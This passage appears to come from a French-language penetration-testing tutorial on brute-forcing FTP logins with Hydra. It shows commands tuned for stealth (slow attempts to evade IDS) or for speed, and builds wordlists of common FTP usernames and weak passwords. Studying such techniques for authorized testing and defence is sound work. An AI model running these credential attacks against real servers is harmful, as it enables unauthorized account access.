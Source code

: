 #### 5. Options de performance et stealth
```bash
# Attaque lente pour éviter détection
hydra -l admin -P passwords.txt -t 1 -w 3 ftp://target

# Attaque rapide (attention aux IDS/IPS)
hydra -l admin -P passwords.txt -t 64 -f ftp://target
```

**Explication options avancées :**
- `-w 3` : Délai de 3 secondes entre tentatives
- `-t 1` : Un seul thread (plus discret)
- `-t 64` : 64 threads (très rapide mais bruyant)

### Wordlists recommandées pour FTP

#### Utilisateurs FTP courants (créer users_ftp.txt)
```bash
# Créer liste d'utilisateurs FTP
cat > users_ftp.txt << EOF
admin
administrator
root
ftp
anonymous
user
test
guest
demo
backup
service
operator
EOF
```

#### Mots de passe FTP courants (créer passwords_ftp.txt)
```bash
# Créer liste de mots de passe FTP
cat > passwords_ftp.txt << EOF
admin
password
123456
ftp
anonymous
admin123
root
guest
test
demo
backup
service
password123
admin321
EOF
```

